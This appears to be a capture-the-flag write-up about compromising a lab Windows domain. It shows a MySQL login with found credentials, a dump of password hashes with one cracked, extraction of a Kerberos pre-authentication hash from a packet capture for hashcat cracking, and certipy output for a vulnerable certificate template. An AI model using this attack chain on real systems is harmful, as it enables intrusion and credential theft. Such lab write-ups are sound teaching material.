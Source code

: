 Start a pivot and connecting to the database:
```
mysql -u certificate_webapp_user -p'cert!f!c@teDBPWD' -h 240.0.0.1 -P 3306 -D Certificate_WEBAPP_DB
```

Found Credentials for admin user:
```
+-----------+--------------------------------------------------------------+---------+
| username  | password                                                     | role    |
+-----------+--------------------------------------------------------------+---------+
| Lorra.AAA | $2y$04$bZs2FUjVRiFswY84CUR8ve02ymuiy0QD23XOKFuT6IM2sBbgQvEFG | teacher |
| Sara1200  | $2y$04$pgTOAkSnYMQoILmL6MRXLOOfFlZUPR4lAD2kvWZj.i/dyvXNSqCkK | teacher |
| Johney    | $2y$04$VaUEcSd6p5NnpgwnHyh8zey13zo/hL7jfQd9U.PGyEW3yqBf.IxRq | student |
| havokww   | $2y$04$XSXoFSfcMoS5Zp8ojTeUSOj6ENEun6oWM93mvRQgvaBufba5I5nti | teacher |
| stev      | $2y$04$6FHP.7xTHRGYRI9kRIo7deUHz0LX.vx2ixwv0cOW6TDtRGgOhRFX2 | student |
| sara.b    | $2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6 | admin   |
| slo       | $2y$04$0DF4rkYPm9szG7o4xHirQOp3GASBytdhVpw2J2wgX5UphwhoDws02 | student |
+-----------+--------------------------------------------------------------+---------+
```

`sara.b` : `Blink182`

Doing bloodhound, We find that we can do winrm:
![[Z Assets/Images/Pasted image 20250930044114.jpeg]]

We found wired `.pcap` file. `C:\Users\Sara.B\Documents\WS-01\WS-01_PktMon.pcap`. And we found text file that says:
```txt
The workstation 01 is not able to open the "Reports" smb shared folder which is hosted on DC01.
When a user tries to input bad credentials, it returns bad credentials error.
But when a user provides valid credentials the file explorer freezes and then crashes!
```

Looking at `WS-01_PktMon.pcap`, We found that there is `SMB` requests most of them has failed but there was successful one which use kerberos:
![[Z Assets/Images/Pasted image 20250930044912.jpeg]]

We can inspect this request, And we find timestamp is encrypted "Encrypted with the actual password of the user."
![[Z Assets/Images/Pasted image 20250930045511.jpeg]]

Modify the encrypted string so hashcat can undestand it and we can try to crack it:
```
$krb5pa$18$Lion.SK$CERTIFICATE.HTB$23f5159fa1c66ed7b0e561543eba6c010cd31f7e4a4377c2925cf306b98ed1e4f3951a50bc083c9bc0f16f0f586181c9d4ceda3fb5e852f0
```

We got credentials:
`lion.sk` : `!QAZ2wsx`

Using `certipy` we found that we have vuln certificate:
```
Certificate Templates
  0
    Template Name                       : Delegated-CRA
    Display Name                        : Delegated-CRA
    Certificate Authorities             : Certificate-LTD-CA
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : True
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireUpn
                                          SubjectAltRequireEmail
                                          SubjectRequireEmail
                                          SubjectRequireDirectoryPath
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
```
